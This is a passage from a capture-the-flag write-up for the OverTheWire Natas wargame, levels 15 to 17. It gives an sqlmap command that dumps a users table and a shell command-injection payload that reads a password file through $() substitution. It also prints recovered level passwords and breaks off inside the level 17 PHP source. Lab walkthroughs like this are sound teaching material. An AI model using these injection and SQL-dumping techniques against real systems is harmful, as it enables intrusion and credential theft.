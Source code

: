 ```php
sqlmap -r req --risk 3 --level 3 -p username --string="This user exists." -D natas15 -T users --dump
```

natas16 : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# Level 16-17

![/assets/images/OverTheWire/Natas/Untitled%209.png](/assets/images/OverTheWire/Natas/Untitled%209.png)

Command Execution . $ is not filtered so used it to get the letters.

First entered Africans to get only one result. Then

```php
Africans$(grep ^a /etc/natas_web_pass/natas17)
```

Used burp suite's intruder to get the password

```php
natas17 : 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

# Level 17-18

![/assets/images/OverTheWire/Natas/Untitled%2010.png](/assets/images/OverTheWire/Natas/Untitled%2010.png)

Source Code

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
```